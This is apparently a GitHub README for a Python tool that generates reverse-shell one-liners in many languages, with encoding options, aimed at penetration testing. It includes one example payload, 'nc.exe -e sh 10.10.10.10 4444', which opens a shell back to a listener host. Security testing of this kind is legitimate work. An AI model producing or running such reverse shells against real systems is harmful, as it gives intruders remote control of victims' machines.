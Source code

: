 ## Requirements
Pyperclip
```bash
  pip3 install pyperclip
```
Psutil
```bash
  pip3 install psutil
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -s <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type>
```  
**Note:** default LPORT is 4444, params with * are optional.  
**Available revshells:** bash, sh, netcat, ncat, rustcat, perl, php, windows, powershell, python, ruby, socat, nodejs, telnet, zsh, lua, golang, awk.  
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
**LHOST CAN BE AN IP OR AN INTERFACE(E.g. tun0 or 10.10.10.10)**
- Get a list of all available reverse shells 
```bash
    python3 reverse.py -s listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -s nc=list
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.
